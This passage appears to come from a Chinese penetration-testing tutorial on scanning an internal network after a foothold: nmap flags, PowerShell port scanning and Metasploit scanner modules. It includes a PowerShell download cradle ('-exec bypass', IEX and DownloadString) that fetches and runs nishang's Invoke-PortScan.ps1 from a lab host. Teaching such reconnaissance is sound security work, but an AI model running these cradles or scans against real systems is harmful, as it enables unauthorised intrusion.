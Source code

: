     |-sP|ping扫描,nmap端口扫描的时候默认就是使用ping扫描  <br>只有主机存活, Nmap才会继续扫描|
    
    此外还有一些参数：
    
    |参数|说明|
    |---|---|
    |-sR|RPC扫描|
    |-sV|版本扫描|
    |-b|FTP代理扫描|
    |-P0|扫描前不ping主机|
    |-v|显示详细扫描过程|
    |-p|指定扫描端口|
    |-O|操作系统探测|
    |-A|全面系统探测,启用脚本检测、扫描等|
    |-sC|根据端口识别的服务，调用默认脚本|
    |–script=脚本名称|使用脚本引擎, 有多种功能的脚本,如  <br>漏洞扫描、漏洞利用、目录扫描等功能|
    
3. #### 利用powershell进行端口扫描
    
    ```bash
    powershell.exe -exec bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://192.168.92.1/Invoke-PortScan.ps1');Invoke-PortScan -StartAddress 192.168.92.1 -EndAddress 192.168.92.30 -ResolveHost -ScanPort"    powershell.exe -exec bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://192.168.92.1/Invoke-PortScan.ps1');Invoke-PortScan -StartAddress 192.168.92.1 -EndAddress 192.168.92.30 -ResolveHost -ScanPort -Port 80,88,135,139,443,445,3306,3389,8080"   
    ```
    
    可以使用nishang项目扫描模块中的脚本[Invoke-PortScan.ps1](https://github.com/samratashok/nishang/blob/master/Scan/Invoke-PortScan.ps1)进行powershell导入执行, 我们需要指定的参数主要就是扫描起始ip和终止ip, 默认扫描下面这个内置的默认端口列表, 可以通过`-Port`参数指定扫描的端口列表
    
    ```bash
    $Ports = @(21,22,23,53,69,71,80,98,110,139,111,389,443,445,1080,1433,2001,2049,3001,3128,5222,6667,6868,7777,7878,8080,1521,3306,3389,5801,5900,5555,5901),
    ```
    
    ![image-20221013022036651](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    
    这个ps脚本的输出感觉还是挺舒服的, 但是感觉速度比较慢, 而且扫描过程中还可能会报错直接中断, 所以体验并不是很好
    

### 3.3 利用MetaSploite探测内网

MetaSploite中内置集成的`发现内网主机存活`和`探测内网服务`,`对目标主机端口扫描`的这些后渗透扫描功能模块都放在`auxiliary/scanner`里面,可以直接搜索查看, 如果想要找某个服务的扫描模块可以搜索`auxiliary/scanner/服务名称`

```bash
msfconsolesearch auxiliary/scanner
```
